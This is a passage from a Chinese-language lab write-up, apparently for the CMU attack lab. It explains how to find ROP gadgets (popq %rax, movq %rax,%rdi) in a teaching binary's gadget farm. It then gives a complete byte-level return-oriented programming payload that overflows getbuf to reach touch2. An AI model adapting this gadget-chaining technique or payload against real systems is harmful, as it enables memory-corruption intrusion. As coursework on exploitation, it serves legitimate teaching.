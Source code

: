 > *movq*：代码如图2A所示。
>
> *popq*；代码如图2B所示。
>
> *ret*：该指令编码为0xc3。
>
> *nop*：该指令编码为0x90。

我们可以将 cookie 存到栈上，使用 pop 指令将其出栈后推导寄存器中。但是 farm 中没有 `popq %rdi`。经过翻找，发现只有一个 `58 90 c3`，可以满足 `popq %rax` 然后 `retq`：

```assembly
0000000000401873 <addval_385>:
  401873:	8d 87 00 58 90 c3    	lea    -0x3c6fa800(%rdi),%eax
  401879:	c3                   	retq   
```

我们只能先 `popq %rax`，然后 `movq %rax %rdi`。翻找后发现 `movq %rax %rdi`(48 89 c7) 有两处：

```assembly
0000000000401858 <setval_422>:
  401858:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
  40185e:	c3                   	retq   
  
0000000000401866 <setval_246>:
  401866:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
  40186c:	c3                   	retq   
```

先把前 24 个字节填上，它们没用了；

从 return address 开始，先让 getbuf 的 retq 到 `popq %rax` 指令地址 `0x761840`(小端法)；

此时 getbuf 的 retq 操作已经把 24 个字节后的第一个 8 字节出栈了，此时 %rsp 指向第二个 8 字节，我们手动触发的 popq 操作会把这第二个 8 字节传到 %rax，因此我们必须把 cookie 的立即数存储到这第二个 8 字节 `0xca49953d`(小端法)；

完成后 %rsp 指向第三个 8 字节，addval_385 在执行完 `popq %rax` 后会执行 retq，再一次出栈并跳转，因此我们把 `movq %rax %rdi` 的地址放到第三个 8 字节中 `0x5a1840`(小端法)；

此时 %rsp 指向第四个 8 字节，这里就放 touch2 的地址，用于被 setval_422 的 retq 调用跳转 `0xc11640`(小端法)；

```c
00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03
76 18 40 00 00 00 00 00
ca 49 95 3d 00 00 00 00
5a 18 40 00 00 00 00 00
c1 16 40 00 00 00 00 00
```



### 第三关

#### Step 1

这一关和上一关的区别是，这一关需要一个注入字符串的首地址，而上一关是直接取出一整个注入的立即数。取栈上的地址，最容易想到的指令肯定是 `movq %rsp Dest`，找到 `movq %rsp %rax`(48 89 e0)：`341940`(小端法)
